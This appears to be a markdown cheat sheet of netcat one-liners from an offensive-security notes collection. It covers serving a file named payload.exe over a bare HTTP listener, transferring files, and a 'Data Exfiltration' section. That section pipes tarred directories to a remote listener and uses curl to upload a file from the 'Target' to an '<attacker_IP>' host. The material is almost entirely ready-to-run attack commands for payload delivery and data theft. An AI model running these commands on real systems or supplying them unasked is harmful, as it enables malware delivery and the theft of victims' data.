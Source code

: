 # Netcat

## 01 - Simple Web Server

```
$ { echo -ne "HTTP/1.1 200 OK\r\n\r\n"; cat payload.exe; } | nc -lp <PORT> -q 1

$ printf 'HTTP/1.1 200 OK\n\n%s' "$(cat payload.exe)" | nc -lp <PORT> -q 1
```

Run the web server infinitely.

```
$ while true; do { echo -ne "HTTP/1.1 200 OK\r\n\r\n"; cat payload.exe; } | nc -lp <PORT> -q 1; done

$ while true; do printf 'HTTP/1.1 200 OK\n\n%s' "$(cat index.html)" | nc -lp <PORT> -q 1; done
```

## 02 - Transfer Files

Send files.

```
$ nc -nvv <IP> 1024 -w 10 < file.txt
```

Receive files.

```
$ nc -lnvp 1024 -w 10 > file.txt
```

Even in vice versa just depends how the environment is configured.

## 03 - Data Exfiltration

- Method 1

```
$ nc -l 8080 > directory_data.tar.gz

$ tar cfvz - directory_data | nc -w 15 <IP> 8080 directory_data

$ tar xzf directory_data.tar.gz
```

- Method 2

```
$ nc -l 8080 | tar xzvf -

$ tar czf - directory_data | nc <IP> 8080
```

### 3.1 - HTTP Server

```
$ nc -lnvp 4040 | tee file.txt
```

### 3.2 - Target

```
$ curl -T file.txt http://<attacker_IP>:4040
```